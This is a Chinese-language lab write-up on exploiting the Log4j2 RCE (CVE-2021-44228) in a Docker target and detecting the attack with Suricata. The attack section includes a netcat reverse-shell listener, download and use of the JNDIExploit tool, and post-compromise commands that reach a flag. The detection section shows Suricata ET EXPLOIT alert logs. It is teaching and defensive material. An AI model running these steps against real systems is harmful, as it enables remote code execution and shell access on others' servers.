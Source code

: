 # 漏洞利用的持续检测和威胁识别

### 一、环境配置及监听准备

**attacker**

在攻击者主机上预先准备好一个反弹监听地址，提前运行程序等待反弹连接

```bash
nc -l -p 7777
```

![attacker_setting](img/attacker_setting.jpg)

**victim**

victim需确认漏洞靶标已启动

### 二、漏洞利用效果持续监测与评估

- 操作窗口：victim

   进入靶标容器，查看`log4j2`的靶标状态

   ```bash
   # 查看服务器中容器状态
   $ docker ps
   ```

   ![container_contents](img/container_contents.jpg)

     ```bash
   # 进入靶标容器终端，并且保留为容器终端的输入形式
   $ docker exec -it CONTAINER_ID bash
     ```

     ![docker_execute](img/docker_execute.jpg)

     ```bash
   # 调试出反弹shell，测试有效负载
   cat /etc/shells
     ```

   ![victim_bash](img/victim_bash.jpg)

- 操作窗口：attacker

  攻击端的攻击工具准备

  ```bash
  $ wget https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip  
  # 获取压缩包
  $ shasum -a 256 JNDIExploit-1.2-SNAPSHOT.jar
  # 计算校验和c96ce1de7f739575d86f2e558aeb97dc691077b31a1c510a3dabf096c827dfa8  JNDIExploit-1.2-SNAPSHOT.jar
  $ java -jar JNDIExploit-1.2-SNAPSHOT.jar -u 
  # 获取可用 post-exploit payload 清单
  $ java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.73.129 
  # 192.168.73.129为【攻击者】主机 IP
  ```

  执行攻击负载投放代码

  ![attack](img\attack.png)
  
  attacker同样进入容器终端
  
  ![](img\getshell.jpg)

  此时attacker已经获取成功，为容器终端模式
  
    ```bash
  /demo# 
  id
  ps
  ps aux
  ifconfig
  env
    ```
  
  ![env](img/env.jpg)
  
  得到flag
  
    ```bash
  ls /tmp
  # 退出
  exit
    ```
  
    ![flag](img/flag.jpg)


###   三、漏洞利用流量检测实战

- 启动靶机镜像

  ```bash
  # -d显示运行，--name给docker取名字，-p是指定端口，本机端口：容器端口
  $ docker run -d --name log4shell -p 5555:8080 vulfocus/log4j2-rce-2021-12-09:latest
  ```

  ![log4shell_run](img/log4shell_run.jpg)

- 启动 suricata 检测容器

  ```bash
  # eth1对应靶机所在虚拟机的 host-only 网卡 IP
  $ docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i 192.168.73.128" jasonish/suricata:6.0.4
  
  # 更新suricata 规则，更新完成测试完规则之后会自动重启服务
  $ docker exec -it suricata suricata-update -f
  
  # 重启 suricata 容器以使规则生效，一般会自动重启
  # docker restart suricata
  ```

  ![suricata_run](img/suricata_run.jpg)

- 监视 suricata 日志

  ```bash
  # 监视 suricata 日志
  $ docker exec -it suricata tail -f /var/log/suricata/fast.log
  ```

  ![suricata_log](img/suricata_log.png)

- 复现攻击过程，查看日志

  ```
  # 7/26/2023-22:41:19.235176 [] [1:2034647:1] ET EXPLOIT Apache log4j RCE Attempt (http ldap) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034649:1] ET EXPLOIT Apache log4j RCE Attempt (tcp ldap) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034700:1] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M2 (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034757:2] ET EXPLOIT Apache log4j RCE Attempt (http ldap) (Outbound) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034759:1] ET EXPLOIT Apache log4j RCE Attempt (tcp ldap) (Outbound) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034800:2] ET EXPLOIT Apache log4j RCE Attempt - lower/upper TCP Bypass M2 (Outbound) (CVE-2021-44228) [] [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034661:1] ET HUNTING Possible Apache log4j RCE Attempt - Any Protocol (CVE-2021-44228) [] [Classification: Misc activity] [Priority: 3] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555 # 7/26/2023-22:41:19.235176 [] [1:2034783:2] ET HUNTING Possible Apache log4j RCE Attempt - Any Protocol (Outbound) (CVE-2021-44228) [] [Classification: Misc activity] [Priority: 3] {TCP} 192.168.73.129:52861 -> 192.168.73.128:5555
  ```


### 四、参考资料

- [网络安全综合实验](https://www.bilibili.com/video/BV1p3411x7da/?p=19&vd_source=07a222cfe0359d066b4d7d9446e8c94a)
- [DockerContainer](http://www.qince.net/dockerwo36.html)
- [CVE-2021-44228](https://blog.csdn.net/weixin_45260839/article/details/124650703?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_baidulandingword~default-0-124650703-blog-125654828.235)
-  [Log4j](https://blog.csdn.net/Bossfrank/article/details/130148819?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_baidulandingword~default-4-130148819-blog-121944757.235)
- [Log4j2远程代码执行漏洞(cve-2021-44228)复现笔记](https://www.freebuf.com/articles/web/358670.html)
- [DockerExec](https://blog.csdn.net/qq_40081976/article/details/84590119)